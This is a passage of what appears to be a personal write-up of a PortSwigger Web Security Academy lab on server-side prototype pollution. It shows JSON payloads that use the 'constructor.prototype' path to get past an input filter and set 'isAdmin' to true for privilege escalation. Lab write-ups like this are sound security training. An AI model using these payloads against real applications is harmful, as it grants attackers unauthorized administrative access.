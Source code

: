 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-7-constructor-property/"}
---
```



---
## Objective: Bypass Input Filters and Privesc

Login like usual with the given credentials::

`wiener:peter`

![Pasted image 20250402004554.png](/img/user/Images/Pasted%20image%2020250402004554.png)

Submit, inspect the request and forward to Repeater

![Pasted image 20250402004752.png](/img/user/Images/Pasted%20image%2020250402004752.png)

I'm going to  assume the normal method of polluting the prototype is filtered. Let's try bypassing this using the `constructor` property

```json
"constructor":{
	"prototype":{
		"foo":"bar"
	}
}
```

Send the request

![Pasted image 20250402010419.png](/img/user/Images/Pasted%20image%2020250402010419.png)

Great, that worked. Now just change the value of `isAdmin` to `true`

```json
"constructor":{
	"prototype":{
		"isAdmin":"true"
	}
}
```


